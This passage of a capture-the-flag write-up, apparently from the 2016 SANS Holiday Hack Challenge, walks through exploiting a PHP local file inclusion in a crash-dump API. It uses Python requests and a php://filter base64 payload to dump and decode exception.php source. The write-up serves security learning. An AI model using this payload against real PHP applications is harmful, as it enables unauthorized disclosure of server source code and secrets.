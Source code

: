 ```python
In [29]: readDump['data'] = {"crashdump":"crashdump-lCpUot"}

In [30]: data = json.dumps(readDump)

In [31]: print s.post(url,headers=headers,data=data).text
{
 "udid": "what?"
}
```

I tell you what I did... I just revealed your vulnerability. So when writing an crash dump, the system creates a `php` file that we then can retrieve with the read crash dump operation. Assuming this php file is not directly accessible from the webroot, it must be used in an include operation inside of exception.php. Let's test this out:

```shell
$ wget http://ex.northpolewonderland.com/crashdump-lCpUot.php
--2016-12-26 07:50:22-- http://ex.northpolewonderland.com/crashdump-lCpUot.php
Resolving ex.northpolewonderland.com... 104.154.196.33
Connecting to ex.northpolewonderland.com|104.154.196.33|:80... connected.
HTTP request sent, awaiting response... 404 Not Found
2016-12-26 07:50:22 ERROR 404: Not Found.
```

Another recent SANS Pentest [blog](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) post by Jeff McJunkin discusses exploiting local file inclusion vulnerabilities in PHP using the `php:// filter`. The recommended payload from the article is:

>>page=php://filter/convert.base64-encode/resource=index

This situation arises when PHP code expects to have a POST or GET parameter called `page` equal to a file name that will have `.php` appended to and included in the execution to generate the output. If vulnerable the value returned from the above would be the base64 encoded source code of the `index.php` file. We will tweak this payload to get the source code of `exception.php` and pass this as the `crashdump` value in our inner JSON object.

```python
In [32]: lfi = "php://filter/convert.base64-encode/resource=exception"

In [33]: readDump['data'] = {"crashdump":lfi}

In [34]: data = json.dumps(readDump)

In [35]: s.post(url,headers=headers,data=data).text
Out[35]: u'PD9waHAgCgojIEF1ZGlvIGZpbGUgZnJvbSBEaXNjb21ib2J1bGF0b3IgaW4gd2Vicm9vdDogZGlzY29tYm9idWxhdGVkLWF1ZGlvLTYtWHl6RTNOOVlxS05ILm1wMwoKIyBDb2RlIGZyb20gaHR0cDovL3RoaXNpbnRlcmVzdHNtZS5jb20vcmVjZWl2aW5nLWpzb24tcG9zdC1kYXRhLXZpYS1waHAvCiMgTWFrZSBzdXJlIHRoYXQgaXQgaXMgYSBQT1NUIHJlcXVlc3QuCmlmKHN0cmNhc2VjbXAoJF9TRVJWRVJbJ1JFUVVFU1RfTUVUSE9EJ10sICdQT1NUJykgIT0gMCl7CiAgICBkaWUoIlJlcXVlc3QgbWV0aG9kIG11c3QgYmUgUE9TVFxuIik7Cn0KCSAKIyBNYWtlIHN1cmUgdGhhdCB0aGUgY2 .......
```

Boom! Now we will just decode that output and see what we have:

```python
In [36]: print s.post(url,headers=headers,data=data).text.decode('base64')
<?php

# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3

# Code from http://thisinterestsme.com/receiving-json-post-data-via-php/
# Make sure that it is a POST request.
if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
    die("Request method must be POST\n");
}
.....
```


[no]: yes